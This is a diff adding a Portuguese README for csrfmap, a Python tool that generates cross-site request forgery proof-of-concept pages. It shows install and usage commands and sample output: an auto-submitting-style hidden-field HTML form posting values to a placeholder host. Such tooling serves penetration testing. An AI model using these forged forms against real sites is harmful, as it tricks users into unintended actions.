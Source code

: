 ```diff
+
+# Características
+
+ - Gera payloads CSRF com foco em exploração de falsificação de requisições entre sites.
+
+# Forma de utilização
+
+```sh
+csrfmap -a "http://exemplo.com" -m post -t forminteraction -n username password token -v victor password 132423542
+```
+Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
+```yaml
+ _____ _____ _____ _____ _____ _____ _____ 
+|     |   __| __  |   __|     |  _  |  _  |
+|   --|__   |    -|   __| | | |     |   __|
+|_____|_____|__|__|__|  |_|_|_|__|__|__|   
+                                                       
+                        v0.0.2 - @joaoviictorti 
+
+options:
+  -h, --help            show this help message and exit
+  -a ACTION, -A ACTION  Insert action
+  -m METHOD, -M METHOD  Insert method
+  -p {form1,form2,json1,json2}
+  -n NAME [NAME ...], -name NAME [NAME ...] Insert name
+  -v VALUE [VALUE ...], -value VALUE [VALUE ...] Insert values
+
+```
+
+# Instalação
+
+csrfmap requer **python3** e para baixá-lo só usar:
+
+```sh
+pip3 install csrfmap
+```
+
+# Executando csrfmap
+
+```console
+csrfmap -a "http://exemplo.com" -m post -p form1 -n username password token -v victor password 132423542
+
+ _____ _____ _____ _____ _____ _____ _____ 
+|     |   __| __  |   __|     |  _  |  _  |
+|   --|__   |    -|   __| | | |     |   __|
+|_____|_____|__|__|__|  |_|_|_|__|__|__|   
+                                                       
+                        v0.0.2 - @joaoviictorti   
+
+csrf.html:
+<!DOCTYPE html>
+<html lang="pt-br">
+<body>
+	<form action="http://exemplo.com" method="post">
+	<input name="username" value="victor" type="hidden"/>
+	<input name="password" value="password" type="hidden"/>
+	<input name="token" value="132423542" type="hidden"/>
+	<input type="submit">Enviar</input>
+	</form>
+</body>
+</html>
```